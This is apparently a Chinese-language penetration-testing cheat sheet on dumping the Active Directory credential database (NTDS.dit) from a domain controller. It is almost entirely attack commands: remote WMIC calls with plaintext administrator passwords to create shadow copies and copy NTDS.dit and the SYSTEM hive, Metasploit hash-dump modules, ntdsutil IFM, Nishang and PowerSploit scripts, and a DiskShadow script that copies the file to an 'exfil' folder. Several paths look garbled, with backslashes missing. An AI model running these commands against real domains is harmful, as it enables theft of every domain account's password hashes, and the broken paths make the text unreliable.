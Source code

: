 #### Dcsync

**mimikatz**

mimikatz 的 DCSync 攻击 NTDS.DIT 操作见 [mimikatz 笔记](../../安全工具/Mimikatz.md#ntdsdit)

#### 卷影复制

卷影副本，也称为快照，是存储在 Data Protection Manager (DPM) 服务器上的副本的时间点副本。副本是文件服务器上单个卷的受保护共享、文件夹和文件的完整时间点副本。

**WMIC**
```
wmic /node:AD /user:PENTESTAdministrator /password:123qweQWE!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"
wmic /node:AD /user:PENTESTadministrator /password:123qwe!@#!@# process call create "cmd /c copy 卷影IDWindowsNTDSNTDS.dit C:windowstempNTDS.dit 2>&1"
wmic /node:AD /user:PENTESTadministrator /password:123qwe!@# process call create "cmd /c copy 卷影IDWindowsSystem32configSYSTEM c:windowstempSYSTEM.hive 2>&1"

net use k: \pentest.comc$
```

**metasploit**
```bash
auxiliary/admin/smb/psexec_ntdsgrab
windows/gather/credentials/domain_hashdump
hashdump
```

**NTDSUtil**

Ntdsutil.exe 是一个为 Active Directory 提供管理设施的命令行工具。

使用 NTDSUTIL 的 IFM 创建（VSS 卷影副本）在 DC 上本地引用 ntds.dit

NTDSUtil 是本地处理 AD DB 的命令实用程序（ntds.dit），并为 DCPromo 启用 IFM 集创建。IFM 与 DCPromo 一起用于“从媒体安装”,因此被升级的服务器不需要通过网络从另一个 DC 复制域数据。
```
ntdsutil "ac i ntds" "ifm" "create full c:temp" q q
```
当创建一个 IFM 时，VSS 快照被拍摄，挂载，ntds.dit 文件和相关数据被复制到目标文件夹中。

**Nishang**
```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

**PowerSploit**
```
Import-Module .\VolumeShadowCopyTools.ps1
New-VolumeShadowCopy -Volume C:\
Get-VolumeShadowCopy
```

**DiskShadow**

DiskShadow 是一个 Microsoft 签名二进制文件，用于协助管理员执行与卷影复制服务（VSS）相关的操作。这个二进制文件有两个模式 interactive 和 script ，脚本将包含自动执行 NTDS.DIT 提取过程所需的所有命令。我们可以在脚本文件中添加以下行，以创建新的 volume shadow copy（卷影复制），挂载新驱动，执行复制命令以及删除 volume shadow copy。
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```
